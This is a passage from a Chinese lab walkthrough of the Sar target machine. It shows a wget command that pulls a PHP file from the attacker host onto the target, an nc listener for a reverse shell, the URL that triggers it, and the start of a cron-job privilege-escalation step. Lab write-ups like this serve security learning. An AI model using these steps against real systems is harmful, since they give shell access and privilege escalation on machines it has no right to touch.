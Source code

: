 靶机下载：`wget http://192.168.9.150/test.txt -O test.php`

kali开启监听：`nc -lvnp 1234`

然后访问对应地址：`http://192.168.9.160/sar2HTML/test.php`

![](/images/sar--打靶笔记/1752587179936.png)

‍

**PART.04 提权**  


**·** **基础信息** **·**  

![](/images/sar--打靶笔记/1752587180160.png)

‍

  

**·** **自动任务提权** **·**  

第一反应是自动任务提权

（回忆提示：网页上有出现自动任务）
